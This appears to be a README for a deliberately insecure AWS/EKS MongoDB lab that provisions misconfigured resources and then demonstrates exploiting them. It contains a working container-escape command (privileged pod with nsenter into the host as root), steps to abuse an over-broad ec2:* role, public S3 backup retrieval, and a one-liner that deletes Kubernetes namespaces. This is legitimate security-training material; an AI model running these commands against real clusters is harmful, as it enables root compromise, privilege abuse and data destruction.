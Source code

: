 # aws-tasky
This repo will build all required AWS Networking and resources to run a 3 tiered MongoDB app.  This includes EC2, EKS, S3, Route53, and AWS Config.  There are known insecure configurations in this repo.  The follow steps will highlight some of these and attempt to exploit them.

## Pre Reqs
- Setup shell with AWS credentials
- AWS Key Pair
- Terraform 1.3.7+
- aws cli
- kubectl
- helm
- curl
- jq

## Getting Started
```
cd quickstart/infra
```
Update the `my.auto.tfvars` for your environment.  Configure your existing AWS Key Pair or copy a local SSH key to your region using this script `./scripts/push-aws-sshkey-multiregion.sh`. Review the prefix being used for resource names, the EKS version, private zone name for route53, and external  CIDR for SSH access. 

### Provision Infrastructure
Use terraform to build the required AWS Infrastructure
```
terraform init
terraform apply -auto-approve
```
All AWS resources will be provisioned and configured to support the tasky application.

### Resource Overview
While the infrastructure is being provisioned review the resources that are being created.

#### Tasky Image
* [Dockerfile](https://github.com/ppresto/aws-tasky/blob/main/docker/Dockerfile.chainguard-static)

#### AWS VPC
* [Configuration](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/locals-usw2.tf#L17)
* [terraform-aws-modules/vpc/aws](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf)
#### AWS EC2
* [Configuration](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L54)
* [IAM Profile](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2_iam_profile/iam-profile.tf)
    * Actions: "ec2:*","s3:GetObject","s3:PutObject","s3:PutObjectAcl","s3:DeleteObject","s3:ListBucket"
#### AWS Security Groups
  * [EC2](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2/main.tf#L30)
    * Ingress: Allow "0.0.0.0/0" -> TCP 22
    * Egress:  Allow "0.0.0.0/0: -> Any Protocol, Any Port
  * [MongoDB](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2_sg_mongod/main.tf#L12)
    * Ingress: Allow "10.15.0.0/20" -> TCP 27017
#### AWS Route53
* [mongoDB record](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L82)

#### AWS S3
* [Public bucket](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L115)

#### Mongo DB
* [DB build script](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2/templates/mongo.sh)

Its recommended to shift left to the Infrastructure pipeline and use Packer to build the mongodb image.  Leverage your standard secrets mgmt solution to configure DB access to avoid leaking sensitive data in the process.  This image was created using Terraform's user_data to keep everything simple and using a single tool.

#### AWS EKS Cluster 1.29
* [Configuration](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L129)
* [terraform-aws-modules/eks/aws](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_eks_cluster_alb/main.tf#L9)

#### AWS Loadbalancer controller
* [AWS LB controller](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_eks_cluster_alb/aws_alb_controller.tf) 

This was installed as a best pratice to support internal NLB or ALBs to EKS services.  The required pulic subnet tags were added as part of the VPC creation to enable the ALB to discover EKS services in the private subnets.


## Connect to EKS
Connect to EKS using `scripts/kubectl_connect_eks.sh`.  Pass this script the path to the terraform state file used to provision the EKS cluster.  If cwd is ./infra like above then this command would look like the following:
```
source ../../scripts/kubectl_connect_eks.sh .
kubectl -n tasky get po
```
This script connects EKS and builds some useful aliases shown in the output.

## Get the Ingress URL
Use this URL to access the Tasky application.  Login to verify Tasky is healthy and create tasks.
```
make getIngress

Tasky URL - http://tasky-ingress-1379807902.us-west-2.elb.amazonaws.com
```
FYI: The Makefile can also be used to see pre and post security scans, build infra, and clean up the project.

## Tasky Application - Verify RBAC
Is the application running with cluster-admin privileges?

The tasky pod should be running a second container `network-multitool`.  To see if containers have cluster-admin privilages connect to the sidecar, install `kubectl`, and use it to **escape into the Working Node as root!**
```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod 755 kubectl
```

Escape into the Node as **root** with kubectl
```
./kubectl run r00t --restart=Never -ti --rm --image tasky --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```
## Public EC2 MongoDB - Verify ext SSH and RBAC
Get the public IP of the EC2 instance running Mongo DB
```
IP=$(terraform output -json | jq -r '.usw2_ec2_ip.value."usw2-shared-ext-mongodb"')
```

### Verify SSH is exposed externally  
```
ssh ubuntu@${IP}
```
This will use the AWS key that was defined in `my.auto.tfvars`

### Verify the EC2 Profile has to many privileges (ec2:*)
If an EC2 instance can assume this level of privilege it can easily provision new EC2 instances in any subnet, map it to any security group, and configure any SSH key pair.  Lets see how easy it is.

EC2 key pair creation
```
ssh-keygen
aws ec2 create-key-pair --key-name pp-keypair-test
```

EC2 Discovery

Find a public subnet that is routable from the internet and a security group you want to apply to your shadow instance
```
aws ec2 describe-subnets --filters "Name=tag:Tier,Values=Public" | grep SubnetId
aws ec2 describe-security-group-rules --query 'SecurityGroupRules[].[Description, SecurityGroupRuleId, ToPort, CidrIpv4]' --output table
```

EC2 Instance Creation
```
aws ec2 run-instances \
  --image-id ami-07fe743f8d6d95a40 \
  --instance-type t2.micro \
  --subnet-id subnet-09d0a1ac53cbdab60 \
  --security-group-ids sg-02c6b447d7387ae36 \
  --associate-public-ip-address \
  --key-name ppresto-ptfe-dev-key
```

Get the external IP to SSH to the new instance
```
aws ec2 describe-instances --query 'Reservations[].Instances[].[InstanceId, InstanceType, SubnetId, PublicIpAddress]' --output table
```

## Mongo DB Backups to S3
Verify the backups are going to S3, they are public, and can be downloaded.  Start by going to the S3 URL in your browser.
```
terraform output bucket_url
```
You should see a list of .tar.gz files.  These are the DB backups happening every 5 minutes.  Copy one of the file names and update the URL with `/<filename>`.  This should download the exact file.

## Notes
Delete other namespaces to show you have cluster-admin privileges
```
./kubectl get ns --no-headers=true | sed "/kube-*/d" | sed "/default/d" | sed "/tasky/d" | awk '{print $1;}' | xargs ./kubectl delete ns
```

## References
* [OWASP Cheatsheets](https://cheatsheetseries.owasp.org/index.html)
* [OWASP Cheatsheets Repo](https://github.com/OWASP/CheatSheetSeries)
* [2023 OSS Security Report](https://go.snyk.io/state-of-open-source-security-report-2023-dwn-typ.html)
* [HackTricksCloud](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/abusing-roles-clusterroles-in-kubernetes)